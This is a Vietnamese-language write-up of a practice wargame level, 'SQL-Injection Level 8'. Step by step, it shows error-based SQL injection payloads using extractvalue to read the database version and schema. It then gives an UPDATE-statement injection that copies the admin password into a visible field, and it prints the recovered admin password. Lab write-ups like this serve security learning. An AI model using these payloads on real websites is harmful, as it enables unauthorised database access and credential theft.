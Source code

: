 # <div align="center"><p> SQL-Injection/Level_8</p></div>
 ### MỤC LỤC
   [SQL-Injection](#gioithieu)
   
### Nội dung báo cáo 
#### SQL-Injection <a name="gioithieu"></a>
- B1: Đây là trang web của level8 .

  ![image](https://user-images.githubusercontent.com/101852647/167063084-e965f579-3c76-49c0-83c7-56d9beb872ed.png)

-B2: Thử chèn ' vào các vị trí trên bảng edit và thấy chỉ có hàng email là trả về lỗi. Như vậy, chúng ta có thể lợi dụng email để khai thác.

  ![image](https://user-images.githubusercontent.com/101852647/167063222-55ed3e2a-7f12-41ee-aa68-ba035ca5fc18.png)

- B3: Thử nhập lệnh `' union select 1,2#` nhưng vẫn trả về thông báo lỗi.

  ![image](https://user-images.githubusercontent.com/101852647/167063307-8d69d33b-bb8e-4d29-a54b-6c8fa3c01602.png)

- B4: Ta sẽ dùng câu lệnh `' or extractvalue(0x0a,concat(0x0a,(select version()))) or '` để tìm phiên bản.

  ![image](https://user-images.githubusercontent.com/101852647/167063422-13fb7735-e185-43bc-abfc-49a19a52c4b8.png)

- B5: Ta sẽ dùng câu lệnh `' or extractvalue(0x0a,concat(0x0a,(select database()))) or '` để tìm database. Kết quả trả về chúng ta là `hackit`

  ![image](https://user-images.githubusercontent.com/101852647/167063493-d8dc1143-087c-462e-9181-c3699c334bb0.png)

- B6: Ta sẽ dùng câu lệnh `' or extractvalue(0x0a,concat(0x0a,(select table_name from information_schema.tables where table_schema=database() limit  1 OFFSET 2))) or '` để tìm tên table. Nhưng kết quả trả về không ổn.

  ![image](https://user-images.githubusercontent.com/101852647/167063746-3f13eb6a-2557-4c16-afd4-22956fe93ae7.png)

- B7: Bây giờ ta mới để ý lại lỗi ban đầu ta gặp và sẽ dựa vào đó để khai thác. Ta thấy lỗi cú pháp gần `'union select 1,2,3#', icq = '12345', age = '25' WHERE id = 1' ` vậy thì chúng ta sẽ lợi dụng lỗ hổng này để khai thác bằng cách chèn thêm câu lệnh `', name=password,icq='` và kết quả trả về cho chúng ta password ngay ở dòng name.

  ![image](https://user-images.githubusercontent.com/101852647/167063882-c1234756-f062-4e71-82f9-78f38dc3034b.png)
  
  ![image](https://user-images.githubusercontent.com/101852647/167064389-1875abbb-07e6-4ba9-af85-329aadb62db8.png)
  
- B8: Sau kkhi đăng nhập với `username=Admin` và `password=19JPYS1jdgvkj` thì đã đăng nhập thành công.

  ![image](https://user-images.githubusercontent.com/101852647/167064225-57b4d6ca-18ff-44da-b444-d5dc2547ff88.png)




  
